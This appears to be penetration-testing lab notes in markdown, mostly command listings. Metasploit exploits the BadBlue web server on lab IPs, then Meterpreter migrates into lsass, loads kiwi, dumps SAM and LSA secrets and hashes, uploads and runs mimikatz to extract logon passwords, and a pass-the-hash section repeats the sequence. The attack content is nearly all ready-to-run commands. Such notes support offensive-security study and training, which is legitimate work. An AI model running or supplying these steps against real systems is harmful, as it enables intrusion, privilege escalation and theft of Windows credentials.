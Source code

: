 ```bash
john@attack> nmap 10.3.30.187 -sV

msf6> search badblue
msf6> use 1
msf6> set rhosts 10.3.30.187
msf6> run

meterpreter> sysinfo
meterpreter> getuid  # Administrator
meterpreter> pgrep lsass
meterpreter> migrate 768
meterpreter> getuid  # NT Authority/system

meterpreter> load kiwi
meterpreter> ?
meterpreter> creds_all
meterpreter> lsa_dump_sam
meterpreter> lsa_dump_secrets

meterpreter> cd c:\\
meterpreter> mkdir Temp
meterpreter> cd Temp
meterpreter> upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
meterpreter> shell

C:\Temp> dir
C:\Temp> .\mimikatz.exe

mimikatz> lsadump::sam
mimikatz> lsadump::secrets
mimikatz> sekurlsa::logonpasswords
```

### Pass-The-Hash attack

#### Description

* Pass-the-hash is an exploitation technique that involves capturing or havesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately.
* We can use multiple tools to facilitate a Pass-The-Hash attack :
  * Metasploit PsExec module
  * Crackmapexec
* This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation.

#### Demo

```bash
john@attack> msfconsole

msf6> use windows/http/badblue_passthru
msf6> set rhosts 10.3.21.247
msf6> set lport 4444
msf6> run

meterpreter> pgrep lsass
meterpreter> migrate 772
meterpreter> getuid  # NT AUTHORITY\SYSTEM

meterpreter> load kiwi
meterpreter> lsa_dump_sam
meterpreter> hashdump
# Ctrl+Z for background
```
